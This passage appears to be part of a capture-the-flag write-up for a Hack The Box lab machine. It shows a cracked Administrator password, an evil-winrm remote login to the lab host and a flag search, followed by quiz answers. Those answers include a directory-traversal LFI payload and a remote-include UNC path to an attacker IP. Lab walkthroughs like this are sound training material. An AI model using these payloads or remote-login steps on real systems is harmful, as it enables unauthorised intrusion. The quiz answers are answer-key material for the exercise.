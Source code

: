 There we go... `Administrator:badminton`. Time to exploit.

### WinRM
`winrm` (Windows Remote Management) is a protocol that allows devices to access a system remotely. `evil-winrm` is a tool that allows us to connect to a windows machine and still be able to use `Powershell` on `Linux`. 

`evil-winrm -i 10.129.245.210 -u Administrator -p badminton`

We are in. Now we can run a PowerShell command to look for the flag so we don't have to!

`Get-ChildItem -Path C:\ -Filter flag.txt -Recurse`

Box popped. 

![responder](/img/tier1/responder.png)

### Questions
- When visiting the web service using the IP address, what is the domain that we are being redirected to? `unika.htb`
- Which scripting language is being used on the server to generate webpages? `php`
- What is the name of the URL parameter which is used to load different language versions of the webpage? `page`
- Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" `../../../../../../../../windows/system32/drivers/etc/hosts`
- Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" `//10.10.14.6/somefile`
- What does NTLM stand for? `New Technology Lan Manager`
- Which flag do we use in the Responder utility to specify the network interface? `-I`